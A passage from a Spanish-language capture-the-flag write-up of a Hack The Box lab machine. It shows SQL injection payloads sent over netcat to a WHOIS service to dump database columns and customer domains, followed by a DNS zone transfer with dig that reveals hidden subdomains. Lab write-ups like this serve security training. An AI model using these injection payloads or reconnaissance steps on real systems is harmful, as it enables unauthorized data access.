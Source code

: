 ```bash
domain^C

❯ nc 10.10.10.155 43
') UNION SELECT column_name, 2 from information_schema.columns where table_name="customers" and table_schema="whois" LIMIT 2,1#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
data

❯ nc 10.10.10.155 43
') UNION SELECT domain, 2 FROM  customers#
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 4 object
supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb
```

Encontramos mas subdominios y entre ellos uno curioso `rentahacker.htb`, que si lo vemos en la pagina web no nos muestra información, pero podemos ejecutar un ataque de transferencia de zona de este subdominio.

```bash
❯ dig @10.10.10.155 rentahacker.htb axfr

; <<>> DiG 9.16.27-Debian <<>> @10.10.10.155 rentahacker.htb axfr
; (1 server found)
;; global options: +cmd
rentahacker.htb.	604800	IN	SOA	ns1.supersechosting.htb. root.supersechosting.htb. 4 604800 86400 2419200 604800
rentahacker.htb.	604800	IN	NS	ns1.supersechosting.htb.
rentahacker.htb.	604800	IN	MX	10 mail1.rentahacker.htb.
rentahacker.htb.	604800	IN	A	10.10.10.155
mail1.rentahacker.htb.	604800	IN	A	10.10.10.155
sec03.rentahacker.htb.	604800	IN	A	10.10.10.155
www.rentahacker.htb.	604800	IN	A	10.10.10.155
rentahacker.htb.	604800	IN	SOA	ns1.supersechosting.htb. root.supersechosting.htb. 4 604800 86400 2419200 604800
;; Query time: 443 msec
;; SERVER: 10.10.10.155#53(10.10.10.155)
;; WHEN: Fri Jun 23 22:49:07 GMT 2023
;; XFR size: 8 records (messages 1, bytes 251)
```

Obtenemos dos subdominios nuevos que luego de añadirlos, visualizamos una pagina en `sec03.rentahacker.htb` con una imagen en relación a un hacker que ya nos da que pensar.

